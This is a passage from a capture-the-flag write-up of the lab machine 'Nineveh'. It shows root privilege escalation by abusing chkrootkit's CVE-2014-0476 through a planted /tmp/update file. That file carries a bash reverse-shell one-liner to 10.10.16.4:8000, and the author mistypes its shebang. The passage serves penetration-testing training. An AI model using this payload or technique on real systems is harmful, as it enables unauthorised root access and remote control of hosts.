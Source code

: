 Viewing the script running on cronjob, we realize that this script is actually deleted all the text files in the /report folder.

```
amrois@nineveh:~$ cat /usr/sbin/report-reset.sh
#!/bin/bash

rm -rf /report/*.txt
```

Looking at the text files in the report directory, it looks like some sort of scan to find malicious files that is running in the background which outputs all the results the directory.

Using [pspy](https://github.com/DominicBreuker/pspy), we will analyze the processes that are running in the background. From the output, we are able to find out that there chkrootkit is running in the background.

```
2021/12/03 11:42:12 CMD: UID=0    PID=1      | /sbin/init 
2021/12/03 11:43:01 CMD: UID=0    PID=13608  | /bin/bash /root/vulnScan.sh 
2021/12/03 11:43:01 CMD: UID=0    PID=13607  | /bin/sh -c /root/vulnScan.sh 
2021/12/03 11:43:01 CMD: UID=0    PID=13606  | /usr/sbin/CRON -f 
2021/12/03 11:43:01 CMD: UID=0    PID=13609  | /bin/sh /usr/bin/chkrootkit 
2021/12/03 11:43:01 CMD: UID=0    PID=13611  | /bin/sh /usr/bin/chkrootkit 
2021/12/03 11:43:01 CMD: UID=0    PID=13614  | /bin/sh /usr/bin/chkrootkit 
2021/12/03 11:43:01 CMD: UID=0    PID=13627  | /bin/uname -s 
```

According to [exploitdb](https://www.exploit-db.com/exploits/33899), chkroot is vulnerable to CVE-2014-0476. We can create an executable file named "update" in the /tmp directory. Afterwards, when chkrootkit runs with root permissions, the "update" binary will be executed.

```
amrois@nineveh:~$ echo -e '!#/bin/bash\n\n/bin/bash -c '/bin/bash -i >& /dev/tcp/10.10.16.4/8000 0>&1' > update
> ^C
amrois@nineveh:~$ echo -e '!#/bin/bash\n\n/bin/bash -c "/bin/bash -i >& /dev/tcp/10.10.16.4/8000 0>&1"' > update
amrois@nineveh:~$ cat update
!#/bin/bash

/bin/bash -c "/bin/bash -i >& /dev/tcp/10.10.16.4/8000 0>&1"
amrois@nineveh:~$ chmod +x update
amrois@nineveh:~$ cp update /tmp/update
```

### Obtaining root flag

```
root@nineveh:~# cat root.txt
cat root.txt
<Redacted root flag>
```

## Post-exploitation

